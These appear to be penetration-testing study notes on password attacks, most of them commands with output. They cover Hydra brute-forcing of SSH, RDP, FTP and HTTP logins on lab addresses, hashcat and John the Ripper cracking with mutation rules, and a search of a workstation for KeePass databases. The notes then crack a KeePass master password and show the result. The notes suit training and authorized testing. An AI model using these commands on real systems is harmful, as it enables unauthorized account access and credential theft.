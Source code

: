 # Password Cracking

### Hydra

#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### Hydra FTP Example (with known usernames)

```bash
hydra -I -V -f -L users.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```

---

You can think of John the Ripper as more of a CPU intensive password cracking tool that supports GPUs, while HashCat is more of a GPU-centered cracking tool, with support for CPUs.

For most algorithms, a GPU is much faster than a CPU since modern GPUs contain thousands of cores, each of which can share part of the workload. However, some slow hashing algorithms (like bcrypt) work better on CPUs.

#### Calculating Cracking Time

The cracking time can be calculated by dividing the keyspace with the hash rate.

The keyspace consists of the character set to the power of the amount of characters or length of the original information (password). For example, if we use the lower-case Latin alphabet (26 characters), upper case alphabet (26 characters), and the numbers from 0 to 9 (10 characters), we have a character set of 62 possible variations for every character. If we are faced with a five-character password, we are facing 62 to the power of five possible passwords containing these five characters.

```bash
python3 -c "print(62**5)"
```

We'll use hashcat with -b to initiate benchmark mode. First, we'll benchmark a CPU by running it in a Kali VM without any GPUs attached. Following along on a local Kali system, the results may differ.

```bash
hashcat -b
```

For now, we are only interested in MD5, SHA1, and SHA-256. The values of the hash rates are in MH/s in which 1 MH/s equals 1,000,000 hashes per second.

Example:
```bash
Algorithm 	GPU 	CPU
MD5 	68,185.1 MH/s 	450.8 MH/s
SHA1 	21,528.2 MH/s 	298.3 MH/s
SHA256 	9,276.3 MH/s 	134.2 MH/s
```

```bash
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

---

### Mutating Passwords

Removing number sequences from a password list:

```bash
# More specifically this removes passwords that start with the letter 1, and does the modification in place, not leaving empty newlines

sed -i '/^1/d' demo.txt
```

If you want to view how the demo rules work:

```bash
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

This sets the crack mode to MD5, with the hash being in crackme.txt, and sets the demo rules on the rockyou.txt wordlsit, with the argument '--force' to use a CPU for the cracking.

```bash
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!

kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
``` 

### Password Cracking Process

We can describe the process of cracking a hash with the following steps:

    1. Extract hashes
    2. Format hashes
    3. Calculate the cracking time
    4. Prepare wordlist
    5. Attack the hash

You can identify the hash type with *hash-identifier* or *hashid*, which are installed on Kali.

We must take special care in copying and pasting our hashes. An extra space or a newline could render our efforts worthless. In addition, we should be sure of the hash type we are using. For example, hashid can't automatically determine if b08ff247dc7c5658ff64c53e8b0db462 is MD2, MD4, or MD5. An incorrect choice will obviously waste time. We can avoid this situation by double-checking the results with other tools and doing additional research.

**If you manage to get access to a client's workstation, check if they are running a password manager. If they are, try to crack the master password.**

#### Recursively Search a User's Workstation for KeePass Database

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

The JtR suite includes various transformation scripts like ssh2john and keepass2john, which can format a broad range of different file formats, and they are installed by default on our Kali machine. We can also use these scripts to format hashes for Hashcat.

Let's use the keepass2john script to format the database file and save the output to keepass.hash.

```bash
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

In our case, the JtR script prepended the filename Database to the hash. The script does this to act as the username for the target hash. This is helpful when cracking database hashes, since we want the output to contain the corresponding username and not only the password. Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.


We're using the rule '/usr/share/hashcat/rules/rockyou-30000.rule' because it is very effective with the rockyou.txt wordlist, as it was made for it.

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### Using Rules with JTR

To be able to use the previously created rules in JtR, we need to add a name for the rules and append them to the /etc/john/john.conf configuration file. For this demonstration, we'll name the rule sshRules with a "List.Rules" rule naming syntax (as shown in Listing 34). We'll use sudo and sh -c to append the contents of our rule file into /etc/john/john.conf.

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

Now that we've successfully added our sshRules to the JtR configuration file, we can use john to crack the passphrase in the final step of our methodology. We'll define our wordlist with --wordlist=ssh.passwords, select the previously created rule with --rules=sshRules, and provide the hash of the private key as the final argument, ssh.hash.

```bash
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### NTLM Hashes

```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
